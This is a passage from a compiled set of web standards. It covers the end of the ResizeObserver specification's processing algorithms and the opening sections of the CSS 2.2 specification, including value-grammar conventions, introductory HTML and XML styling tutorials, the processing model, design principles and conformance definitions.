  1. Set *this*.*contentRect*.top and *this*.contentRect.left to 0.

##### 3.4.5. Broadcast active resize observations {#resize-observer-1:broadcast-resize-notifications-h}

**broadcast active resize observations** delivers all active resize observations in a document, and returns the depth of the shallowest broadcast target depth.

To broadcast active resize observations for a *document*, run these steps:

1. Let *shallowestTargetDepth* be ∞
2. For each *observer* in *document*.`[[resizeObservers]]` run these steps:

  1. If *observer*.`[[activeTargets]]` slot is empty, continue.
  2. Let *entries* be an empty list of `ResizeObserverEntry`ies.
  3. For each *observation* in `[[activeTargets]]` perform these steps:

    1. Let *entry* be the result of running create and populate a ResizeObserverEntry given *observation*.`target`.
    2. Add *entry* to *entries*.
    3. Set *observation*.`lastReportedSizes` to matching *entry* sizes.

      1. Matching sizes are *entry*.`borderBoxSize` if *observation*.`observedBox` is "border-box"
      2. Matching sizes are *entry*.`contentBoxSize` if *observation*.`observedBox` is "content-box"
      3. Matching sizes are *entry*.`devicePixelContentBoxSize` if *observation*.`observedBox` is "device-pixel-content-box"
    4. Set *targetDepth* to the result of calculate depth for node for *observation*.`target`.
    5. Set *shallowestTargetDepth* to *targetDepth* if *targetDepth* < *shallowestTargetDepth*
  4. Invoke *observer*.`[[callback]]` with *entries* as the first argument and *observer* as the second argument and callback this value. If this throws an exception, report the exception.
  5. Clear *observer*.`[[activeTargets]]`.
3. Return *shallowestTargetDepth*.

##### 3.4.6. Deliver Resize Loop Error {#resize-observer-1:deliver-resize-error}

To **deliver resize loop error notification** run these steps:

1. Create a new `ErrorEvent`.
2. Initialize *event*’s message slot to "ResizeObserver loop completed with undelivered notifications.".
3. Report the exception *event*.

##### 3.4.7. Calculate depth for node {#resize-observer-1:calculate-depth-for-node-h}

To **calculate depth for node**, given a *node*, run these steps:

1. Let *p* be the parent-traversal path from *node* to a root Element of this element’s flattened DOM tree.
2. Return number of nodes in *p*.

##### 3.4.8. Calculate box size, given target and observed box {#resize-observer-1:calculate-box-size-h}

This algorithm computes *target* `Element`’s observed box size. Type of box is described by `ResizeObserverBoxOptions`. The SVG elements which don’t have associated CSS layout boxes are an exception. The sizes of these elements are always their bounding box sizes, because these elements do not use standard CSS box model.

To **calculate box size**, given *target* and *observedBox*, run these steps:

1. Let *computedSize* be a new `ResizeObserverSize` object.
2. If *target* is an `SVGGraphicsElement` that does not have an associated CSS layout box:

   **If *observedBox* is `"border-box"` If *observedBox* is `"content-box"`**

   : 1. Set *computedSize*’s `inlineSize` attribute to *target*’s bounding box inline length.
  2. Set *computedSize*’s `blockSize` attribute to *target*’s bounding box block length.

   **If *observedBox* is `"device-pixel-content-box"`**

   : 1. Set *computedSize*’s `inlineSize` attribute to *target*’s bounding box inline length, in integral device pixels.
  2. Set *computedSize*’s `blockSize` attribute to *target*’s bounding box block length, in integral device pixels.
3. Otherwise:

   **If *observedBox* is `"border-box"`**

   : 1. Set *computedSize*’s `inlineSize` attribute to *target*’s border area inline length.
  2. Set *computedSize*’s `blockSize` attribute to *target*’s border area block length.

   **If *observedBox* is `"content-box"`**

   : 1. Set *computedSize*’s `inlineSize` attribute to *target*’s content area inline length.
  2. Set *computedSize*’s `blockSize` attribute to *target*’s content area block length.

   **If *observedBox* is `"device-pixel-content-box"`**

   : 1. Set *computedSize*’s `inlineSize` attribute to *target*’s content area inline length, in integral device pixels.
  2. Set *computedSize*’s `blockSize` attribute to *target*’s content area block length, in integral device pixels.
4. Return *computedSize*.

#### 3.5. ResizeObserver Lifetime {#resize-observer-1:lifetime}

A `ResizeObserver` will remain alive until both of these conditions are met:

- there are no scripting references to the observer.
- the observer is not observing any targets.

---

## Cascading Style Sheets (CSS) Level 2 {#css2}

- **Shortname:** `css2`
- **Editor's Draft:** [https://drafts.csswg.org/css2/](https://drafts.csswg.org/css2/)
- **Published TR:** [https://www.w3.org/TR/CSS2/](https://www.w3.org/TR/CSS2/)
- **W3C Status:** ED (stable)
- **Last Edited:** 2025-12-30

### 1. About the CSS 2.2 Specification {#css2:about}

#### 1.1. CSS 2.2 vs CSS 2 {#css2:css2.2-v-css2}

The CSS community has gained significant experience with the CSS2 specification since it became a recommendation in 1998. Errors in the CSS2 specification [CSS20] have subsequently been corrected in the first revised edition [CSS21] in 2011, but new errata were necessary.

While many of the issues will be addressed by the upcoming CSS3 specifications, the current state of affairs hinders the implementation and interoperability of CSS2. The CSS 2.2 specification attempts to address this situation by:

- Maintaining compatibility with those portions of CSS2 that are widely accepted and implemented.
- Incorporating all published CSS2 errata.
- Where implementations overwhelmingly differ from the CSS2 specification, modifying the specification to be in accordance with generally accepted practice.
- Removing CSS2 features which, by virtue of not having been implemented, have been rejected by the CSS community. CSS 2.2 aims to reflect what CSS features are reasonably widely implemented for HTML and XML languages in general (rather than *only* for a particular XML language, or *only* for HTML).
- Removing CSS2 features that will be obsoleted by CSS3, thus encouraging adoption of the proposed CSS3 features in their place.
- Adding a (very) small number of [new property values,](#css2:new) when implementation experience has shown that they are needed for implementing CSS2.

Thus, while it is not the case that a CSS2 style sheet is necessarily forwards-compatible with CSS 2.2, it is the case that a style sheet restricting itself to CSS 2.2 features is more likely to find a compliant user agent today and to preserve forwards compatibility in the future. While breaking forward compatibility is not desirable, we believe the advantages to the revisions in CSS 2.2 are worthwhile.

CSS 2.2 is derived from and is intended to replace CSS 2.1 and CSS2. Some parts of CSS2 are unchanged in CSS 2.2, some parts have been altered, and some parts removed. The removed portions may be used in a future CSS3 specification. Future specs should refer to CSS 2.2 (unless they need features from CSS2 which have been dropped in CSS 2.2, and then they should only reference CSS2 for those features, or preferably reference such feature(s) in the respective CSS3 Module that includes those feature(s)).

#### 1.2. Reading the specification {#css2:reading}

This section is non-normative.

This specification has been written with two types of readers in mind: CSS authors and CSS implementors. We hope the specification will provide authors with the tools they need to write efficient, attractive, and accessible documents, without overexposing them to CSS’s implementation details. Implementors, however, should find all they need to build [conforming user agents](#css2:conformance).

The specification begins with a general presentation of CSS and becomes more and more technical and specific towards the end. For quick access to information, a general table of contents, specific tables of contents at the beginning of each section, and an index provide easy navigation, in both the electronic and printed versions.

The specification has been written with two modes of presentation in mind: electronic and printed. Although the two presentations will no doubt be similar, readers will find some differences. For example, links will not work in the printed version (obviously), and page numbers will not appear in the electronic version. In case of a discrepancy, the electronic version is considered the authoritative version of the document.

#### 1.3. How the specification is organized {#css2:organization}

This section is non-normative.

The specification is organized into the following sections:

****Section 2: An introduction to CSS 2****

: The introduction includes a brief tutorial on CSS 2 and a discussion of design principles behind CSS 2.

****Sections 3 - 18: CSS 2 reference manual.****

: The bulk of the reference manual consists of the CSS 2 language reference. This reference defines what may go into a CSS 2 style sheet (syntax, properties, property values) and how user agents must interpret these style sheets in order to claim [conformance](#css2:conformance).

****Appendixes:****

: Appendixes contain information about [a sample style sheet for HTML 4](#css2:html-stylesheet), [changes from CSS 2.1](#css2:app-changes), [the grammar of CSS 2](#css2:app-grammar), a list of normative and informative [references](#css2:references), and two indexes: one for [properties](#css2:property-index) and one [general index](#css2:index).

#### 1.4. Conventions {#css2:conventions}

##### 1.4.1. Document language elements and attributes {#css2:doc-language}

- CSS property and pseudo-class names are delimited by single quotes.
- CSS values are delimited by single quotes.
- Document language attribute names are in lowercase letters and delimited by double quotes.

##### 1.4.2. CSS property definitions {#css2:property-defs}

Each CSS property definition begins with a summary of key information that resembles the following:

| Field | Value |
| --- | --- |
| Name: | **property-name** |
| [Value:](#css-values-4:value-defs) | legal values & syntax |
| [Initial:](#css-cascade-6:initial-values) | initial value |
| [Applies to:](#css-cascade-5:applies-to) | elements this property applies to |
| [Inherited:](#css-cascade-5:inherited-property) | whether the property is inherited |
| [Percentages:](#css-values-4:percentages) | how percentage values are interpreted |
| [Computed value:](#css-cascade-6:computed) | how to compute the computed value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | how the property is animated |
| Media: | which media groups the property applies to |

###### 1.4.2.1. Value {#css2:value-defs}

This part specifies the set of valid values for the property whose name is `property-name`. A property value can have one or more components. Component value types are designated in several ways:

1. keyword values (e.g., auto, disc, etc.)
2. basic data types, which appear between "<" and ">" (e.g., `<length>`, `<percentage>`, etc.). In the electronic version of the document, each instance of a basic data type links to its definition.
3. types that have the same range of values as a property bearing the same name (e.g., <`border-width`> <`background-attachment`>, etc.). In this case, the type name is the property name (complete with quotes) between "<" and ">" (e.g., <`border-width`>). Such a type does **not** include the value `inherit`. In the electronic version of the document, each instance of this type of non-terminal links to the corresponding property definition.
4. non-terminals that do not share the same name as a property. In this case, the non-terminal name appears between "<" and ">", as in <border-width>. Notice the distinction between <border-width> and <`border-width`>; the latter is defined in terms of the former. The definition of a non-terminal is located near its first appearance in the specification. In the electronic version of the document, each instance of this type of value links to the corresponding value definition.

Other words in these definitions are keywords that must appear literally, without quotes (e.g., red). The slash (/) and the comma (**,**) must also appear literally.

Component values may be arranged into property values as follows:

- Several juxtaposed words mean that all of them must occur, in the given order.
- A bar (**|**) separates two or more alternatives: exactly one of them must occur.
- A double bar (**||**) separates two or more options: one or more of them must occur, in any order.
- A double ampersand (**&&**) separates two or more components, all of which must occur, in any order.
- Brackets ([ ]) are for grouping.

Juxtaposition is stronger than the double ampersand, the double ampersand is stronger than the double bar, and the double bar is stronger than the bar. Thus, the following lines are equivalent:

```
  a b   |   c ||   d &&   e f
[ a b ] | [ c || [ d && [ e f ]]]
```

Every type, keyword, or bracketed group may be followed by one of the following modifiers:

- An asterisk (*****) indicates that the preceding type, word, or group occurs zero or more times.
- A plus (**+**) indicates that the preceding type, word, or group occurs one or more times.
- A question mark (**?**) indicates that the preceding type, word, or group is optional.
- A pair of numbers in curly braces (**{*A*,*B*}**) indicates that the preceding type, word, or group occurs at least *A* and at most *B* times.

The following examples illustrate different value types:

> *Value:* N | NW | NE  *Value:* [ `<length>` | thick | thin ]{1,4}  *Value:* [<family-name> , ]* <family-name>  *Value:* `<uri>`? <color> [ / <color> ]?  *Value:* <uri> || <color>  *Value:* inset? && [ <length>{2,4} && <color>? ]

Component values are specified in terms of tokens, as described in [Appendix G.2](#css2:scanner). As the grammar allows spaces between tokens in the components of the `expr` production, spaces may appear between tokens in property values.

> **Note:** In many cases, spaces will in fact be *required* between tokens in order to distinguish them from each other. For example, the value `1em2em` would be parsed as a single `DIMEN` token with the number `1` and the identifier `em2em`, which is an invalid unit. In this case, a space would be required before the `2` to get this parsed as the two lengths `1em` and `2em`.

###### 1.4.2.2. Initial {#css2:initial-value}

This part specifies the property’s initial value. Please consult the section on [the cascade](#css2:assigning) for information about the interaction between style sheet-specified, inherited, and initial property values.

###### 1.4.2.3. Applies to {#css2:applies-to}

This part lists the elements to which the property applies. All elements are considered to have all properties, but some properties have no rendering effect on some types of elements. For example, the `clear` property only affects block-level elements.

###### 1.4.2.4. Inherited {#css2:inherited-prop}

This part indicates whether the value of the property is inherited from an ancestor element. Please consult the section on [the cascade](#css2:assigning) for information about the interaction between style sheet-specified, inherited, and initial property values.

###### 1.4.2.5. Percentage values {#css2:percentage-wrt}

This part indicates how percentages should be interpreted, if they occur in the value of the property. If "N/A" appears here, it means that the property does not accept percentages in its values.

###### 1.4.2.6. Media groups {#css2:media-applies}

This part indicates the [media groups](#css2:media-groups) to which the property applies. Information about media groups is non-normative.

###### 1.4.2.7. Computed value {#css2:computed-defs}

This part describes the computed value for the property. See the section on computed values for how this definition is used.

##### 1.4.3. Shorthand properties {#css2:shorthand}

Some properties are **shorthand properties**, meaning that they allow authors to specify the values of several properties with a single property.

For instance, the `font` property is a shorthand property for setting `font-style`, `font-variant`, `font-weight`, `font-size`, `line-height`, and `font-family` all at once.

When values are omitted from a shorthand form, each "missing" property is assigned its initial value (see the section on [the cascade](#css2:assigning)).

> **Example:** The multiple style rules of this example:
>
> ```css
> h1 {
>   font-weight: bold;
>   font-size: 12pt;
>   line-height: 14pt;
>   font-family: Helvetica;
>   font-variant: normal;
>   font-style: normal;
> }
> ```
>
> may be rewritten with a single shorthand property:
>
> ```css
> h1 { font: bold 12pt/14pt Helvetica }
> ```
>
> In this example, `font-variant`, and `font-style` take their initial values.

##### 1.4.4. Notes and examples {#css2:notes-and-examples}

All examples that illustrate illegal usage are clearly marked as "ILLEGAL EXAMPLE".

HTML examples lacking DOCTYPE declarations are SGML Text Entities conforming to the HTML 4.01 Strict DTD [HTML401]. Other HTML examples conform to the DTDs given in the examples.

All notes are informative only.

Examples and notes are [marked within the source HTML](#css2:defs) for the specification and CSS user agents will render them specially.

##### 1.4.5. Images and long descriptions {#css2:images-and-longdesc}

Most images in the electronic version of this specification are accompanied by "long descriptions" of what they represent. A link to the long description is denoted by a "[D]" after the image.

Images and long descriptions are informative only.

### 2. Introduction to CSS 2 {#css2:intro}

#### 2.1. A brief CSS 2 tutorial for HTML {#css2:html-tutorial}

This section is non-normative.

In this tutorial, we show how easy it can be to design simple style sheets. For this tutorial, you will need to know a little HTML (see [HTML401]) and some basic desktop publishing terminology.

We begin with a small HTML document:

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
  <TITLE>Bach's home page</TITLE>
  </HEAD>
  <BODY>
    <H1>Bach's home page</H1>
    <P>Johann Sebastian Bach was a prolific composer.
  </BODY>
</HTML>
```

To set the text color of the H1 elements to red, you can write the following CSS rules:

```css
h1 { color: red }
```

A CSS rule consists of two main parts: [selector](#css2:selector) (`h1`) and declaration ('color: red'). In HTML, element names are case-insensitive so `h1` works just as well as `H1`. The declaration has two parts: property name (`color`) and property value (`red`). While the example above tries to influence only one of the properties needed for rendering an HTML document, it qualifies as a style sheet on its own. Combined with other style sheets (one fundamental feature of CSS is that style sheets are combined), the rule will determine the final presentation of the document.

The HTML 4 specification defines how style sheet rules may be specified for HTML documents: either within the HTML document, or via an external style sheet. To put the style sheet into the document, use the STYLE element:

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
  <TITLE>Bach's home page</TITLE>
  <STYLE type="text/css">
    h1 { color: red }
  </STYLE>
  </HEAD>
  <BODY>
    <H1>Bach's home page</H1>
    <P>Johann Sebastian Bach was a prolific composer.
  </BODY>
</HTML>
```

For maximum flexibility, we recommend that authors specify external style sheets; they may be changed without modifying the source HTML document, and they may be shared among several documents. To link to an external style sheet, you can use the LINK element:

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
  <TITLE>Bach's home page</TITLE>
  <LINK rel="stylesheet" href="bach.css" type="text/css">
  </HEAD>
  <BODY>
    <H1>Bach's home page</H1>
    <P>Johann Sebastian Bach was a prolific composer.
  </BODY>
</HTML>
```

The LINK element specifies:

- the type of link: to a "stylesheet".
- the location of the style sheet via the "href" attribute.
- the type of style sheet being linked: "text/css".

To show the close relationship between a style sheet and the structured markup, we continue to use the STYLE element in this tutorial. Let’s add more colors:

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
  <TITLE>Bach's home page</TITLE>
  <STYLE type="text/css">
    body { color: black; background: white }
    h1 { color: red; background: white }
  </STYLE>
  </HEAD>
  <BODY>
    <H1>Bach's home page</H1>
    <P>Johann Sebastian Bach was a prolific composer.
  </BODY>
</HTML>
```

The style sheet now contains four rules: the first two set the color and background of the BODY element (it’s a good idea to set the text color and background color together), while the last two set the color and the background of the H1 element. Since no color has been specified for the P element, it will inherit the color from its parent element, namely BODY. The H1 element is also a child element of BODY but the second rule overrides the inherited value. In CSS there are often such conflicts between different values, and this specification describes how to resolve them.

CSS 2 has more than 90 properties, including `color`. Let’s look at some of the others:

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
  <TITLE>Bach's home page</TITLE>
  <STYLE type="text/css">
    body {
      font-family: "Gill Sans", sans-serif;
      font-size: 12pt;
      margin: 3em;
    }
  </STYLE>
  </HEAD>
  <BODY>
    <H1>Bach's home page</H1>
    <P>Johann Sebastian Bach was a prolific composer.
  </BODY>
</HTML>
```

The first thing to notice is that several declarations are grouped within a block enclosed by curly braces ({...}), and separated by semicolons, though the last declaration may also be followed by a semicolon.

The first declaration on the BODY element sets the font family to "Gill Sans". If that font is not available, the user agent (often referred to as a "browser") will use the `sans-serif` font family which is one of five generic font families which all users agents know. Child elements of BODY will inherit the value of the `font-family` property.

The second declaration sets the font size of the BODY element to 12 points. The "point" unit is commonly used in print-based typography to indicate font sizes and other length values. It’s an example of an absolute unit which does not scale relative to the environment.

The third declaration uses a relative unit which scales with regard to its surroundings. The "em" unit refers to the font size of the element. In this case the result is that the margins around the BODY element are three times wider than the font size.

#### 2.2. A brief CSS 2 tutorial for XML {#css2:xml-tutorial}

This section is non-normative.

CSS can be used with any structured document format, for example with applications of the eXtensible Markup Language [XML10]. In fact, XML depends more on style sheets than HTML, since authors can make up their own elements that user agents do not know how to display.

Here is a simple XML fragment:

```xml
<ARTICLE>
  <HEADLINE>Fredrick the Great meets Bach</HEADLINE>
  <AUTHOR>Johann Nikolaus Forkel</AUTHOR>
  <PARA>
    One evening, just as he was getting his
    <INSTRUMENT>flute</INSTRUMENT> ready and his
    musicians were assembled, an officer brought him a list of
    the strangers who had arrived.
  </PARA>
</ARTICLE>
```

To display this fragment in a document-like fashion, we must first declare which elements are inline-level (i.e., do not cause line breaks) and which are block-level (i.e., cause line breaks).

```css
INSTRUMENT { display: inline }
ARTICLE, HEADLINE, AUTHOR, PARA { display: block }
```

The first rule declares INSTRUMENT to be inline and the second rule, with its comma-separated list of selectors, declares all the other elements to be block-level. Element names in XML are case-sensitive, so a selector written in lowercase (e.g., `instrument`) is different from uppercase (e.g., `INSTRUMENT`).

One way of linking a style sheet to an XML document is to use a processing instruction:

```xml
<?xml-stylesheet type="text/css" href="bach.css"?>
<ARTICLE>
  <HEADLINE>Fredrick the Great meets Bach</HEADLINE>
  <AUTHOR>Johann Nikolaus Forkel</AUTHOR>
  <PARA>
    One evening, just as he was getting his
    <INSTRUMENT>flute</INSTRUMENT> ready and his
    musicians were assembled, an officer brought him a list of
    the strangers who had arrived.
  </PARA>
</ARTICLE>
```

A visual user agent could format the above example as:


Notice that the word "flute" remains within the paragraph since it is the content of the inline element INSTRUMENT.

Still, the text is not formatted the way you would expect. For example, the headline font size should be larger than then the rest of the text, and you may want to display the author’s name in italic:

```css
INSTRUMENT { display: inline }
ARTICLE, HEADLINE, AUTHOR, PARA { display: block }
HEADLINE { font-size: 1.3em }
AUTHOR { font-style: italic }
ARTICLE, HEADLINE, AUTHOR, PARA { margin: 0.5em }
```

A visual user agent could format the above example as:


Adding more rules to the style sheet will allow you to further describe the presentation of the document.

#### 2.3. The CSS 2 processing model {#css2:processing-model}

This section up to but not including its subsections is non-normative.

This section presents one possible model of how user agents that support CSS work. This is only a conceptual model; real implementations may vary.

In this model, a user agent processes a source by going through the following steps:

1. Parse the source document and create a document tree.
2. Identify the target [media type](#css2:media).
3. Retrieve all style sheets associated with the document that are specified for the target [media type](#css2:media).
4. Annotate every element of the document tree by assigning a single value to every [property](#css2:properties) that is applicable to the target [media type](#css2:media). Properties are assigned values according to the mechanisms described in the section on [cascading and inheritance](#css2:assigning).

   Part of the calculation of values depends on the formatting algorithm appropriate for the target [media type](#css2:media). For example, if the target medium is the screen, user agents apply the [visual formatting model](#css2:visuren).
5. From the annotated document tree, generate a  **formatting structure**. Often, the formatting structure closely resembles the document tree, but it may also differ significantly, notably when authors make use of pseudo-elements and generated content. First, the formatting structure need not be "tree-shaped" at all -- the nature of the structure depends on the implementation. Second, the formatting structure may contain more or less information than the document tree. For instance, if an element in the document tree has a value of `none` for the `display` property, that element will generate nothing in the formatting structure. A list element, on the other hand, may generate more information in the formatting structure: the list element’s content and list style information (e.g., a bullet image).

   Note that the CSS user agent does not alter the document tree during this phase. In particular, content generated due to style sheets is not fed back to the document language processor (e.g., for reparsing).
6. Transfer the formatting structure to the target medium (e.g., print the results, display them on the screen, render them as speech, etc.).

##### 2.3.1. The canvas {#css2:the-canvas}

For all media, the term  **canvas** describes "the space where the formatting structure is rendered." The canvas is infinite for each dimension of the space, but rendering generally occurs within a finite region of the canvas, established by the user agent according to the target medium. For instance, user agents rendering to a screen generally impose a minimum width and choose an initial width based on the dimensions of the  [viewport](#css2:viewport). User agents rendering to a page generally impose width and height constraints. Aural user agents may impose limits in audio space, but not in time.

##### 2.3.2. CSS 2 addressing model {#css2:addressing}

CSS 2 [selectors](#css2:selector) and properties allow style sheets to refer to the following parts of a document or user agent:

- Elements in the document tree and certain relationships between them (see the section on [selectors](#css2:selector)).
- Attributes of elements in the document tree, and values of those attributes (see the section on [attribute selectors](#css2:attribute-selectors)).
- Some parts of element content (see the [:first-line](#css2:first-line) and [:first-letter](#css2:first-letter) pseudo-elements).
- Elements of the document tree when they are in a certain state (see the section on [pseudo-classes](#css2:pseudo-classes)).
- Some aspects of the canvas where the document will be rendered.
- Some system information (see the section on [user interface](#css2:ui)).

#### 2.4. CSS design principles {#css2:design-principles}

This section is non-normative.

CSS 2, as with earlier CSS specifications, is based on a set of design principles:

- **Forward and backward compatibility**. CSS 2 user agents will be able to understand CSS1 style sheets. CSS1 user agents will be able to read CSS 2 style sheets and discard parts they do not understand. Also, user agents with no CSS support will be able to display style-enhanced documents. Of course, the stylistic enhancements made possible by CSS will not be rendered, but all content will be presented.
- **Complementary to structured documents**. Style sheets complement structured documents (e.g., HTML and XML applications), providing stylistic information for the marked-up text. It should be easy to change the style sheet with little or no impact on the markup.
- **Vendor, platform, and device independence**. Style sheets enable documents to remain vendor, platform, and device independent. Style sheets themselves are also vendor and platform independent, but CSS 2 allows you to target a style sheet for a group of devices (e.g., printers).
- **Maintainability**. By pointing to style sheets from documents, webmasters can simplify site maintenance and retain consistent look and feel throughout the site. For example, if the organization’s background color changes, only one file needs to be changed.
- **Simplicity**. CSS is a simple style language which is human readable and writable. The CSS properties are kept independent of each other to the largest extent possible and there is generally only one way to achieve a certain effect.
- **Network performance**. CSS provides for compact encodings of how to present content. Compared to images or audio files, which are often used by authors to achieve certain rendering effects, style sheets most often decrease the content size. Also, fewer network connections have to be opened which further increases network performance.
- **Flexibility**. CSS can be applied to content in several ways. The key feature is the ability to cascade style information specified in the default (user agent) style sheet, user style sheets, linked style sheets, the document head, and in attributes for the elements forming the document body.
- **Richness**. Providing authors with a rich set of rendering effects increases the richness of the Web as a medium of expression. Designers have been longing for functionality commonly found in desktop publishing and slide-show applications. Some of the requested rendering effects conflict with device independence, but CSS 2 goes a long way toward granting designers their requests.
- **Alternative language bindings**. The set of CSS properties described in this specification form a consistent formatting model for visual presentations. This formatting model can be accessed through the CSS language, but bindings to other languages are also possible. For example, a JavaScript program may dynamically change the value of a certain element’s `color` property.
- **Accessibility**. Several CSS features will make the Web more accessible to users with disabilities:

  - Properties to control font appearance allow authors to eliminate inaccessible bit-mapped text images.
  - Positioning properties allow authors to eliminate mark-up tricks (e.g., invisible images) to force layout.
  - The semantics of `!important` rules mean that users with particular presentation requirements can override the author’s style sheets.
  - The `inherit` value for all properties improves cascading generality and allows for easier and more consistent style tuning.
  - Improved media support, including media groups and the braille, embossed, and tty media types, will allow users and authors to tailor pages to those devices.

  > **Note:** ***Note.** For more information about designing accessible documents using CSS and HTML, see [WCAG20].*

### 3. Conformance: Requirements and Recommendations {#css2:conform}

#### 3.1. Definitions {#css2:defs}

The key words **"MUST"**, **"MUST NOT"**, **"REQUIRED"**, **"SHALL"**, **"SHALL NOT"**, **"SHOULD"**, **"SHOULD NOT"**, **"RECOMMENDED"**, **"MAY"**, and **"OPTIONAL"** in this document are to be interpreted as described in RFC 2119 (see [RFC2119]). However, for readability, these words do not appear in all uppercase letters in this specification.

At times, this specification recommends good practice for authors and user agents. These recommendations are not normative and conformance with this specification does not depend on their realization. These recommendations contain the expression "We recommend ...", "This specification recommends ...", or some similar wording.

The fact that a feature is marked as deprecated or going to be deprecated in CSS3 (namely the [system colors](#css2:system-colors)) also has no influence on conformance. (For example, the system colors are a normative part of the specification, so UAs must support them.)

All sections of this specification, including appendices, are normative unless otherwise noted.

[Examples and notes](#css2:notes-and-examples) are not normative.

> **Example:** s usually have the word "example" near their start ("Example:", "The following example…," "For example," etc.) and are shown in the color maroon, like this paragraph.

> **Note:** s start with the word "Note," are indented and shown in green, like this paragraph.

Figures are for illustration only. They are not reference renderings, unless explicitly stated.

****Style sheet****

: A set of statements that specify presentation of a document.

  Style sheets may have three different origins: author, user, and user agent. The interaction of these sources is described in the section on [cascading and inheritance](#css2:assigning).

****Valid style sheet****

: The validity of a style sheet depends on the level of CSS used for the style sheet. All valid CSS1 style sheets are valid CSS 2 style sheets, but some changes from CSS1 mean that a few CSS1 style sheets will have slightly different semantics in CSS 2. Some features in CSS2 (1998) are not part of CSS 2, so not all CSS2 (1998) style sheets are valid CSS 2 style sheets.

  A valid CSS 2 style sheet must be written according to the [grammar of CSS 2](#css2:app-grammar). Furthermore, it must contain only at-rules, property names, and property values defined in this specification. An **illegal** (invalid) at-rule, property name, or property value is one that is not valid.

****Source document****

: The document to which one or more style sheets apply. This is encoded in some language that represents the document as a tree of elements. Each element consists of a name that identifies the type of element, optionally a number of attributes, and a (possibly empty) content. For example, the source document could be an XML or SGML instance.

****Document language****

: The encoding language of the source document (e.g., HTML, XHTML, or SVG). CSS is used to describe the presentation of document languages and CSS does not change the underlying semantics of the document languages.

****Element****

: (An SGML term, see [ISO8879].) The primary syntactic constructs of the document language. Most CSS style sheet rules use the names of these elements (such as P, TABLE, and OL in HTML) to specify how the elements should be rendered.

****Replaced element****

: An element whose content is outside the scope of the CSS formatting model, such as an image, embedded document, or applet. For example, the content of the HTML IMG element is often replaced by the image that its "src" attribute designates. Replaced elements often have intrinsic dimensions: an intrinsic width, an intrinsic height, and an intrinsic ratio. For example, a bitmap image has an intrinsic width and an intrinsic height specified in absolute units (from which the intrinsic ratio can obviously be determined). On the other hand, other documents may not have any intrinsic dimensions (for example, a blank HTML document).

  User agents may consider a replaced element to not have any intrinsic dimensions if it is believed that those dimensions could leak sensitive information to a third party. For example, if an HTML document changed intrinsic size depending on the user’s bank balance, then the UA might want to act as if that resource had no intrinsic dimensions.

  The content of replaced elements is not considered in the CSS rendering model.

****Intrinsic dimensions****

: The width and height as defined by the element itself, not imposed by the surroundings. CSS does not define how the intrinsic dimensions are found. In CSS 2 only replaced elements can come with intrinsic dimensions. For raster images without reliable resolution information, a size of 1 px unit per image source pixel must be assumed.

****Attribute****

: A value associated with an element, consisting of a name, and an associated (textual) value.

****Content****

: The content associated with an element in the source document. Some elements have no content, in which case they are called **empty**. The content of an element may include text, and it may include a number of sub-elements, in which case the element is called the **parent** of those sub-elements.

**`Ignore`**

: This term has two slightly different meanings in this specification. First, a CSS parser must follow certain rules when it discovers unknown or illegal syntax in a style sheet. The parser must then **ignore certain parts of the style sheets**. The exact rules for which parts must be ignored are described in these sections ([Declarations and properties,](#css2:declaration) [Rules for handling parsing errors,](#css2:parsing-errors) [Unsupported Values](#css2:unsupported-values)) or may be explained in the text where the term "ignore" appears. Second, a user agent may (and, in some cases must) **disregard certain properties or values in the style sheet**, even if the syntax is legal. For example, table-column elements cannot affect the font of the column, so the font properties must be ignored.

****Rendered content****

: The content of an element after the rendering that applies to it according to the relevant style sheets has been applied. How a replaced element’s content is rendered is not defined by this specification. Rendered content may also be alternate text for an element (e.g., the value of the XHTML "alt" attribute), and may include items inserted implicitly or explicitly by the style sheet, such as bullets, numbering, etc.

****Document tree****

: The tree of elements encoded in the source document. Each element in this tree has exactly one parent, with the exception of the **root** element, which has none.

****Child****

: An element A is called the child of element B if and only if B is the parent of A.

****Descendant****

: An element A is called a descendant of an element B, if either (1) A is a child of B, or (2) A is the child of some element C that is a descendant of B.

****Ancestor****

: An element A is called an ancestor of an element B, if and only if B is a descendant of A.

****Sibling****

: An element A is called a sibling of an element B, if and only if B and A share the same parent element. Element A is a preceding sibling if it comes before B in the document tree. Element B is a following sibling if it comes after A in the document tree.

****Preceding element****

: An element A is called a preceding element of an element B, if and only if (1) A is an ancestor of B or (2) A is a preceding sibling of B.

****Following element****

: An element A is called a following element of an element B, if and only if B is a preceding element of A.

****Author****

: An author is a person who writes documents and associated style sheets. An **authoring tool** is a user agent that generates style sheets.

****User****

: A user is a person who interacts with a user agent to view, hear, or otherwise use a document and its associated style sheet. The user may provide a personal style sheet that encodes personal preferences.

****User agent (UA)****

: A **user agent** is any program that interprets a document written in the document language and applies associated style sheets according to the terms of this specification. A user agent may display a document, read it aloud, cause it to be printed, convert it to another format, etc.

  An HTML user agent is one that supports one or more of the HTML specifications. A user agent that supports XHTML [XHTML1], but not HTML is not considered an HTML user agent for the purpose of conformance with this specification.

****Property****

: CSS defines a finite set of parameters, called properties, that direct the rendering of a document. Each property has a name (e.g., `color`, `font`, or border') and a value (e.g., `red`, '12pt Times', or `dotted`). Properties are attached to various parts of the document and to the page on which the document is to be displayed by the mechanisms of specificity, cascading, and inheritance (see the chapter on [Assigning property values, Cascading, and Inheritance](#css2:assigning)).

> **Example:** Here is an example of a source document written in HTML:
>
> ```
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HTML>
>   <TITLE>My home page</TITLE>
>   <BODY>
>     <H1>My home page</H1>
>     <P>Welcome to my home page! Let me tell you about my favorite
>       composers:
>     <UL>
>       <LI> Elvis Costello
>       <LI> Johannes Brahms
>       <LI> Georges Brassens
>     </UL>
>   </BODY>
> </HTML>
> ```
>
> This results in the following tree:
>
> 
>
> According to the definition of HTML 4, HEAD elements will be inferred during parsing and become part of the document tree even if the "head" tags are not in the document source. Similarly, the parser knows where the P and LI elements end, even though there are no </p> and </li> tags in the source.
>
